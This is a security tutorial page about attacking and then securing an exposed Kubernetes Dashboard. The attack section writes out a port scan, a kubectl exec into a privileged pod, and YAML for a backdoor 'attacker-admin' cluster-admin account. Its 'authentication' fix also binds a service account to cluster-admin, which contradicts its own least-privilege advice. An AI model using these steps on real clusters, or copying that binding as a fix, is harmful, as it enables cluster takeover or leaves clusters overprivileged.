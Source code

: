 ```yaml
---
sidebar_position: 2
title: Exposed Kubernetes Dashboard
description: Exploiting an exposed Kubernetes Dashboard and implementing best practices to secure dashboard access.
---
```


# Exposed Kubernetes Dashboard

The **Kubernetes Dashboard** is a powerful tool for **managing Kubernetes clusters**, but if **improperly secured**, it can become a significant **attack vector**. An **exposed dashboard** with **admin privileges** and **no authentication** can allow an attacker to **gain full control** over the cluster.

---

## 🚩 Exploitation Steps: Exposed Dashboard

An attacker scans for an **open Kubernetes Dashboard** using a **port scan**:

```bash
nmap -p 30000-32767 <cluster-ip>
```

### 1. Access the Dashboard Without Authentication

The **attacker** finds the **dashboard** on a **NodePort** and **opens it** in a **browser**:

```bash
http://<cluster-ip>:<node-port>/
```

### 2. Execute Commands in the Cluster

The **attacker** uses the **dashboard's terminal** to **execute commands** in a **privileged pod**:

```bash
kubectl exec -it privileged-pod -- /bin/sh
```

### 3. Create a New Admin User

The **attacker** creates a **new admin ServiceAccount** and **binds it** to the **cluster-admin role**:

```yaml
apiVersion: v1
kind: ServiceAccount
metadata:
  name: attacker-admin
  namespace: kube-system
---
apiVersion: rbac.authorization.k8s.io/v1
kind: ClusterRoleBinding
metadata:
  name: attacker-admin-binding
subjects:
- kind: ServiceAccount
  name: attacker-admin
  namespace: kube-system
roleRef:
  kind: ClusterRole
  name: cluster-admin
  apiGroup: rbac.authorization.k8s.io
```

### ✅ Result

The attacker gains **admin access** to the cluster, allowing them to **deploy malicious workloads**, **exfiltrate data**, or **destroy resources**.

---

## 🛡️ Mitigation Techniques and Fixes

### 1. Avoid Exposing the Dashboard Publicly

- **Issue:** Dashboard is accessible without authentication over a **NodePort**.
- **Fix:** Use a **secure network proxy** or **port-forwarding** instead.

#### ✅ Secure Access with Port Forwarding

```bash
kubectl proxy
# Access the dashboard securely
http://localhost:8001/api/v1/namespaces/kubernetes-dashboard/services/https:kubernetes-dashboard:/proxy/
```

### 2. Enforce Authentication

- **Issue:** The dashboard **does not require login**, allowing **unauthorized access**.
- **Fix:** Enable **token-based authentication** and **disable guest access**.

#### ✅ Enable Authentication via Service Account Token

```bash
kubectl create serviceaccount dashboard-admin -n kube-system
kubectl create clusterrolebinding dashboard-admin-binding \
  --clusterrole=cluster-admin \
  --serviceaccount=kube-system:dashboard-admin
kubectl get secrets -n kube-system | grep dashboard-admin
kubectl describe secret <dashboard-admin-token> -n kube-system
```

### 3. Restrict Dashboard Privileges

- **Issue:** Dashboard runs with **cluster-admin privileges**, exposing the **entire cluster** to risk.
- **Fix:** Limit the **ServiceAccount permissions** using **RBAC**.

#### ✅ Create a Restricted Role for the Dashboard

```yaml
apiVersion: rbac.authorization.k8s.io/v1
kind: Role
metadata:
  name: restricted-dashboard-role
  namespace: kube-system
rules:
- apiGroups: [""]
  resources: ["pods", "services"]
  verbs: ["get", "list"]
---
apiVersion: rbac.authorization.k8s.io/v1
kind: RoleBinding
metadata:
  name: restricted-dashboard-binding
  namespace: kube-system
subjects:
- kind: ServiceAccount
  name: dashboard
  namespace: kube-system
roleRef:
  kind: Role
  name: restricted-dashboard-role
  apiGroup: rbac.authorization.k8s.io
```

---

## ✅ Key Takeaway

To secure the **Kubernetes Dashboard**:

- **Never expose** the dashboard **directly to the internet**.
- Always **enforce authentication** using **Service Account tokens**.
- Apply **principle of least privilege** by assigning **restricted roles** to the dashboard.

